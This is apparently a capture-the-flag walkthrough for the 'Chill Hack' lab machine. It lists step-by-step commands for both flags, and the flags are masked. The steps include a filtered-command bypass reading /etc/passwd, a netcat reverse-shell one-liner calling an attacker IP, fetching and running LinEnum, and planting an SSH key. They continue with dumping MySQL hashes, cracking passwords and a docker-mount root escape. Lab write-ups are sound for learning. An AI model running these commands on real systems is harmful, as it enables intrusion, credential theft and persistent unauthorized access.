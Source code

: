 # Chill Hack

- User Flag

	- `scilla port -target <TARGET_IP> -p -1000`
	- `ftp <TARGET_IP>`
	- `anonymous`, no password
	- `get note.txt`
	- `scilla dir -target <TARGET_IP>`
	- secret directory found.
	- Execute `cat /etc/passwd`. ahahhahahahahahahhaa.
	- So, execute `cat</etc/passwd`
	- `nc -lnvp 1234`
	- `r"m" /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 1234 >/tmp/f`
	- Cool.
	- `python3 -c 'import pty;pty.spawn("/bin/bash")'`
	- `cd /home`
	- `sudo -l`
	- `cd apaar`
	- `sudo -u apaar /home/apaar/.helpline.sh`
	- `/bin/sh` and `/bin/sh`
	- `id`
	- `cat local.txt`
	- `{USER-FLAG: *********************************}`

- Root Flag

	- `wget https://raw.githubusercontent.com/rebootuser/LinEnum/master/LinEnum.sh`
	- `python3 -m http.server`
	- On target `curl <YOUR_IP>:8000/LinEnum.sh > linenum.sh`
	- `chmod +x linenum.sh`
	- `./linenum.sh`
	~~~
	[-] Listening TCP:
	Active Internet connections (only servers)
	Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name    
	tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
	tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
	tcp        0      0 127.0.0.1:9001          0.0.0.0:*               LISTEN      -                   
	tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
	~~~
	- On your machine `ssh-keygen`
	- `cd ~/.ssh`
	- `python3 -m http.server`
	- On target `curl <YOUR_IP>:8000/id_rsa.pub > ~/.ssh/authorized_keys`
	- `chmod 600 id_rsa`
	- `ssh -L 9001:127.0.0.1:9001 -i id_rsa apaar@<TARGET_IP>`
	- `cat /var/www/files/index.php`
	- Found username and password for MySQL database.
	- `mysql -u root -p` and enter the password found.
	- `show databases;`
	- `use webportal;`
	- `show tables;`
	- `select * from users;`
	- Save those two hashes
	- `john --format=Raw-MD5 --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt`
	- Login into the website at localhost:9001
	- Download the image and execute `steghide extract -sf hacker-with-laptop_23-2147985341.jpg`
	- `fcrackzip -D -p /usr/share/wordlists/rockyou.txt -u backup.zip`
	- Inspect `source_code.php`
	- `echo ******************** | base64 -d`
	- `su anurodh` and enter password
	- `docker images`
	- `docker run -v /root:/mnt -it alpine`
	- `cat /mnt/proof.txt`
	- `{ROOT-FLAG: ********************************}`





